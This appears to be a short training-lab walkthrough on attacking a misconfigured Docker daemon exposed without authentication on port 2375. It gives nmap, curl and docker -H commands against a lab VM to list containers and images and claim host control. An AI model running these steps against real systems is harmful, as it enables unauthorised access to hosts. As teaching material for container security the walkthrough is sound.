


# Exploiting docker misconfiguration

In this scenario we will see that misconfigured `docker` with port 2375 running and exposed. We will use this with docker runtime host option to access the containers, images and gain host system privileges.

> The Docker daemon can listen for Docker Engine API requests via three different types of Socket `unix`, `tcp`, and `fd`. To access remotely we have to enable `tcp` socket. The default setup provides un-encrypted and un-authenticated direct access to the Docker daemon. It is conventional to use port `2375` for un-encrypted, and port `2376` for encrypted communication with the daemon.

* Scan the `2375` and `2376` port using nmap from student VM

```bash
nmap -p 2375,2376 -n 192.168.56.4 -v
```



* We can query the docker API using `curl`

```bash
curl 192.168.56.4:2375/images/json | jq .
```


* Attacker can abuse this by using the docker daemon configuration to access the host system's docker runtime

```bash
docker -H tcp://CTFVMIP:2375 ps
docker -H tcp://CTFVMIP:2375 images
```



* Now, we have full privilege over the host system :)
